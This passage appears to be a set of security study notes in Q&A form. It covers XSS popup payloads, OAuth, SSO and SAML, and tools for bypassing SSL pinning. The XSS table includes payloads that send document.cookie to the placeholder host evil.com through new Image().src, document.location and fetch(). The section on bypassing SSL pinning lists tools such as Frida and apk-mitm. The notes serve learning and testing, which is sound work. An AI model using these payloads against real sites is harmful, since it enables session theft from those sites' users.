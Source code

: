 
### 🔹 **3. XSS: Different Popup Types Beyond `alert()`**

**Question Rewritten:** What are different types of JavaScript payloads or popup-based XSS demonstrations other than using the standard `alert()` function?

**Answer:** Here are creative payloads that go beyond `alert()`:

|Payload|Description|
|---|---|
|`confirm('XSS')`|Triggers a yes/no dialog|
|`prompt('XSS Input')`|Takes user input|
|`console.log(document.cookie)`|Silent data theft|
|`new Image().src="http://evil.com/"+document.cookie`|Sends cookie to attacker|
|`document.location='http://evil.com?data='+document.cookie`|Redirect with data|
|`document.write('<iframe src="http://evil.com">')`|Injects iframe|
|`fetch('http://evil.com/steal?cookie=' + document.cookie)`|Uses `fetch` to exfiltrate|

---

### 🔹 **4. Authentication: OAuth, SSO, SAML**

**Question Rewritten:** Explain the difference between OAuth, SSO (Single Sign-On), and SAML. How do elements like `client_id` and `user_id` play roles in these mechanisms?

#### **Answer:**

|Concept|Definition|Used In|Key Parameters|
|---|---|---|---|
|**OAuth 2.0**|Token-based auth protocol; allows third-party app to access resources without sharing credentials|APIs, Mobile apps|`client_id`, `client_secret`, `access_token`, `refresh_token`|
|**SSO**|Authenticate once, access multiple apps|Enterprise logins|Uses OAuth/SAML under the hood|
|**SAML (Security Assertion Markup Language)**|XML-based protocol for exchanging authentication & authorization|Enterprise + Cloud apps (G Suite, etc.)|`assertion`, `issuer`, `NameID`|

- **`client_id`** = identifies the application requesting access (OAuth)
- **`user_id`** = identifies the end user (internal DB or IdP)

---

### 🔹 **5. SSL Pinning Bypass**

**Question Rewritten:** What are the tools and actual techniques used to bypass SSL Pinning in Android or iOS apps?

#### **Answer:**

✅ **Tools:**

- **Frida** (runtime hooking)
- **Objection** (based on Frida)
- **Xposed + JustTrustMe** module
- **Burp Suite + Frida plugin**
- **apk-mitm** (for patching APKs)
